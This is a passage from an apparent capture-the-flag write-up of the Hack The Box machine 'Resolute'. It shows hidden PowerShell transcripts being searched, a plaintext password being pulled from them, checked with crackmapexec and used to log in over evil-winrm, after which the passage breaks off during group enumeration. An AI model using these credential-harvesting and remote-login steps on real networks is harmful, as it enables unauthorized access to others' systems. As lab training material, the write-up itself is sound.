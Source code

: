 ```
-a-hs-       12/23/2022   2:04 AM      402653184 pagefile.sys
```
Navigate into the directory and list all hidden files within it.
```
*Evil-WinRM* PS C:\PSTranscripts> cd 20191203                                                                                                                                                                                              
*Evil-WinRM* PS C:\PSTranscripts\20191203> dir                                                                                                                                                                                             
*Evil-WinRM* PS C:\PSTranscripts\20191203> dir -force                                                                                                                                                                                      

    Directory: C:\PSTranscripts\20191203

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-arh--        12/3/2019   6:45 AM           3732 PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt
```
There is a `.txt` file meaning we can read it to see if there is any valuable information.
```
*Evil-WinRM* PS C:\PSTranscripts\20191203> type PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt
```
**Result**
There is a bunch of information but the only interesting line is shown below which shows the password and new user called `ryan`
```
>> ParameterBinding(Invoke-Expression): name="Command"; value="cmd /c net use X: \\fs01\backups ryan Serv3r4Admin4cc123!
```
## Administrator Account
Check if this credentials are valid with `crackmapexec` 
```
┌──(gemstone㉿hashghost)-[~/…/htb/Machines/vip/resolute]
└─$ crackmapexec winrm 10.10.10.169 -u ryan -p 'Serv3r4Admin4cc123!'
SMB         10.10.10.169    5985   RESOLUTE         [*] Windows 10.0 Build 14393 (name:RESOLUTE) (domain:megabank.local)
HTTP        10.10.10.169    5985   RESOLUTE         [*] http://10.10.10.169:5985/wsman
WINRM       10.10.10.169    5985   RESOLUTE         [+] megabank.local\ryan:Serv3r4Admin4cc123! (Pwn3d!)
```
Then this credentials are valid and we can try to use them to login with `evil-winrm`
```
┌──(gemstone㉿hashghost)-[~/…/Machines/vip/resolute/exploit]
└─$ evil-winrm -i 10.10.10.169 -u ryan -p 'Serv3r4Admin4cc123!'
```
**Result**
```
*Evil-WinRM* PS C:\Users\ryan\Documents> whoami 
megabank\ryan
```
Checking groups for user `ryan`
```
*Evil-WinRM* PS C:\Users\ryan\Documents> whoami /groups
```
**Result**
```
GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                            Attributes
```